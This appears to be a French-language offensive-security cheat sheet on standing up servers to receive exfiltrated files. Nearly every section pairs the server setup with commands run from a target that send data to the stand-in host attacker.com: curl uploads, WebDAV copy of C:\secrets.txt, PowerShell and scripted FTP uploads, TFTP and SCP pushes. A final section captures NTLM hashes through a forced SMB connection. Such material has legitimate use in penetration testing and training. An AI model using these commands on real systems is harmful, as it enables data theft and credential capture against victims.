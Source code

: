 # Configuration de Serveurs pour Réception de Fichiers

## Serveurs HTTP/S pour Réception

### Serveurs HTTP Rapides

```bash
# Python Simple HTTP Server
python3 -m http.server 80

# Avec PHP
php -S 0.0.0.0:80

# Avec Ruby
ruby -run -ehttpd . -p80
```

### Serveurs HTTP avec Upload

```bash
# Python avec module uploadserver
sudo pip3 install uploadserver
python3 -m uploadserver 80

# Utilisation
curl -F 'files=@/path/to/local/file' http://attacker.com/upload
```

### HTTPS avec Certificat Auto-signé

```bash
# Créer un certificat auto-signé
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=attacker.com'

# Démarrer le serveur avec HTTPS
sudo python3 -m uploadserver 443 --server-certificate server.pem
```

## Configuration Nginx pour Upload

Nginx offre une solution plus robuste pour les transferts de fichiers volumineux.

```bash
# 1. Créer le répertoire de réception
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# 2. Créer la configuration Nginx
cat > /etc/nginx/sites-available/upload.conf << 'EOF'
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
EOF

# 3. Activer le site
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# 4. Redémarrer Nginx
sudo systemctl restart nginx.service

# Utilisation
curl -T /path/to/local/file http://attacker.com:9001/SecretUploadDirectory/file.txt
```

## WebDAV (SMB sur HTTP)

WebDAV permet de monter un partage comme un lecteur réseau sous Windows.

```bash
# Installation sur Linux
sudo pip3 install wsgidav cheroot

# Démarrage du serveur
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

# Utilisation depuis Windows
dir \\attacker.com\DavWWWRoot\
copy C:\secrets.txt \\attacker.com\DavWWWRoot\
```

## Serveur FTP

```bash
# FTP avec Python pyftpdlib
sudo pip3 install pyftpdlib

# Démarrage du serveur FTP avec accès en écriture
sudo python3 -m pyftpdlib --port 21 --write

# Utilisation depuis Windows PowerShell
(New-Object Net.WebClient).UploadFile('ftp://attacker.com/upload.txt', 'C:\secrets.txt')

# Utilisation avec commande FTP classique
echo open attacker.com > ftpcmd.txt
echo USER anonymous >> ftpcmd.txt
echo binary >> ftpcmd.txt
echo PUT C:\secrets.txt >> ftpcmd.txt
echo bye >> ftpcmd.txt
ftp -s:ftpcmd.txt
```

## Serveur TFTP

Utile pour les environnements limités comme les équipements réseau.

```bash
# Installation sur Linux
sudo apt-get install tftpd-hpa

# Configuration
sudo nano /etc/default/tftpd-hpa
# TFTP_DIRECTORY="/tftp"
# TFTP_OPTIONS="--secure --create"

# Démarrage du service
sudo systemctl restart tftpd-hpa

# Utilisation depuis Windows
tftp -i attacker.com put C:\secrets.txt
```

## Serveur SSH/SCP/SFTP

```bash
# Configuration du serveur SSH
sudo nano /etc/ssh/sshd_config
# Uncomment: Subsystem sftp /usr/lib/openssh/sftp-server

# Redémarrage du service
sudo systemctl restart ssh

# Création d'un utilisateur pour les transferts
sudo useradd -m transferuser
sudo passwd transferuser

# Utilisation depuis la cible
scp /path/to/file transferuser@attacker.com:/home/transferuser/
```

## Capture de Hachages NTLM pour Relais

Utile pour les environnements Windows avec authentification automatique.

```bash
# Installation d'Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && pip3 install .

# Configuration d'un serveur SMB
sudo impacket-smbserver share /tmp -smb2support

# Forcer l'authentification depuis Windows
dir \\attacker.com\share\

# Le serveur capturera les hachages NTLM
```

## Points Importants

- Choisir le service en fonction des restrictions de l'environnement
- Les serveurs HTTP simples sont rapides à mettre en place mais moins sécurisés
- Pour les fichiers volumineux, Nginx offre de meilleures performances
- WebDAV est très pratique pour les environnements Windows
- FTP fonctionne dans presque tous les environnements mais n'est pas chiffré
- Préférer SFTP/SCP pour les transferts sécurisés
- Vérifier les journaux et nettoyer les fichiers sensibles après utilisation